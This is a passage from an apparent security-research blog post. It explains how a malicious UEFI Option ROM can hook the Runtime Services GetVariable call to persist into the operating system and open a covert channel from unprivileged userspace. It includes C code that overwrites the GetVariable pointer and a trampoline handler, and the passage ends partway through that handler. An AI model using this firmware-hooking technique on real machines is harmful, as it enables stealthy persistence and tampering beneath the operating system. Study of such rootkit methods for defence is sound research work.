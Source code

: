Keep in mind that a malicious Option ROM can do much more than persist code, for example it can overwrite content on attached storage.

My solution is again to trampoline the code that retrieves UEFI variables. An unprivileged process can attempt a read of a variable and this attempt will call the Runtime Services [`GetVariable`](https://edk2-docs.gitbooks.io/edk-ii-uefi-driver-writer-s-guide/5_uefi_services/52_services_that_uefi_drivers_rarely_use/525_getvariable_and_setvariable.html) API.

Consider the following code as part of the implementation of our Option ROM entry point:

```c
EFI_BOOT_SERVICES *gBS = NULL;
gBS = SystemTable->BootServices
VOID *handler = NULL;
gBS->AllocatePool(EfiRuntimeServicesCode, 0x1000, &handler);
If (handler != NULL) {
  // Move our Option ROM code into RT_CODE
  gBS->CopyMem((void*)handler, HijackedGetVariable, 0x1000);

  // TODO: Save gRT->GetVariable

  // gRT is the Runtime Services table
  gRT->GetVariable = handler;
}
```

The `HijackedGetVariable` handler will trampoline into the original `GetVariable`; and code in the `EfiRuntimeServicesCode` map will be relocated for us by the OS. Saving the existing `GetVariable` location is a bit more challenging. In the previous post the SMI trampoline was easy as the SMM dispatcher supported falling back to a backup handler so no state was maintained within our code.

The state maintenance referenced above is also needed to implement communication with our code and userspace.

For context, an unprivileged user cannot read an arbitrary UEFI variable, but rather only the variables exposed by the sysfs `efivars` filesystem. To communicate with our code, we have to invent a hacky protocol involving reading well-known variable names in sequence, sort of a variable-read side-channel. This protocol requires maintaining state between variable reads.

To maintain state we will reserve a region in RT\_DATA and overwrite part of `HijackedGetVariable` with the location of reserved memory. We will overwrite a canary value such that the trampolined logic becomes:

```c
EFI_STATUS
EFIAPI
HijackedGetVariable(
  IN     CHAR16                      *VariableName,
  IN     EFI_GUID                    *VendorGuid,
  OUT    UINT32                      *Attributes,    OPTIONAL
  IN OUT UINTN                       *DataSize,
  OUT    VOID                        *Data           OPTIONAL
  )
{
  // Our canary value
  UINT64 replace_me = 0xab12ab12;
  // Expect the canary to be overwritten in GetVariable install
  if (replace_me == 0x0 || replace_me == 0xab12ab12) {
    // We could not find the data
    return (EFI_STATUS)0x3;
  }

  MyOptionRomData *data = (MyOptionRomData*)replace_me;
  // Use data, for example count the number of times VariableName was requested
  [...]

  // Fall through to the original GetVariable
  UINT32 DupAttributes = 0;
```